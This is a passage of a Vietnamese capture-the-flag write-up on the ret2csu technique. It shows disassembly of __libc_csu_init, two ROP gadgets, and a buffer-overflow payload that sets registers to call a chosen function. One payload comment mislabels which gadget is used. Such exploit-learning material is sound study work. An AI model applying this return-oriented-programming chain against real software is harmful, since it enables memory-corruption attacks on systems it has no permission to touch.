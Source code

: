 ```text-plain
│           0x00400671      4885ed         test rbp, rbp
│       ┌─< 0x00400674      7420           je 0x400696
│       │   0x00400676      31db           xor ebx, ebx
│       │   0x00400678      0f1f84000000.  nop dword [rax + rax]
│       │   ; CODE XREF from sym.__libc_csu_init @ 0x400694
│      ┌──> 0x00400680      4c89fa         mov rdx, r15
│      ╎│   0x00400683      4c89f6         mov rsi, r14
│      ╎│   0x00400686      4489ef         mov edi, r13d
│      ╎│   0x00400689      41ff14dc       call qword [r12 + rbx*8]
│      ╎│   0x0040068d      4883c301       add rbx, 1
│      ╎│   0x00400691      4839dd         cmp rbp, rbx
│      └──< 0x00400694      75ea           jne 0x400680
│       │   ; CODE XREF from sym.__libc_csu_init @ 0x400674
│       └─> 0x00400696      4883c408       add rsp, 8
│           0x0040069a      5b             pop rbx
│           0x0040069b      5d             pop rbp
│           0x0040069c      415c           pop r12
│           0x0040069e      415d           pop r13
│           0x004006a0      415e           pop r14
│           0x004006a2      415f           pop r15
└           0x004006a4      c3             ret
[0x00400640]>
```

Ta có Gadget 1:

```text-plain
│      ┌──> 0x00400680      4c89fa         mov rdx, r15
│      ╎│   0x00400683      4c89f6         mov rsi, r14
│      ╎│   0x00400686      4489ef         mov edi, r13d
│      ╎│   0x00400689      41ff14dc       call qword [r12 + rbx*8]
```

Gadget 2

```text-plain
│           0x0040069a      5b             pop rbx
│           0x0040069b      5d             pop rbp
│           0x0040069c      415c           pop r12
│           0x0040069e      415d           pop r13
│           0x004006a0      415e           pop r14
│           0x004006a2      415f           pop r15
└           0x004006a4      c3             ret
```

Với payload1 ta sử dụng Gadget 2 để truyền giá trị arg vào r13, r14, r15, Gadget2 cũng control r12 để kết hợp với Gadget 1 gọi đến hàm chúng ta mong muốn đồng thời control edi, rsi, rdx

```text-x-python
payload1 = b'A'*40
payload1 += p64(libc_csu_int + 0x5a) # Gadget 1
payload1 += p64(0x0) # rbx
payload1 += p64(0x1) # rbp -> add rbx, 0x1;cmp rbp, rbx; jne __libc_csu_init -> rbx==rbp
payload1 += p64(init) # r12 -> call qword [r12 + rbx*8]
payload1 += p64(0xdeadbeefdeadbeef) # r13 -> edi
payload1 += p64(0xcafebabecafebabe) # r14 -> rsi
payload1 += p64(0xd00df00dd00df00d) # r15 -> rdx
```
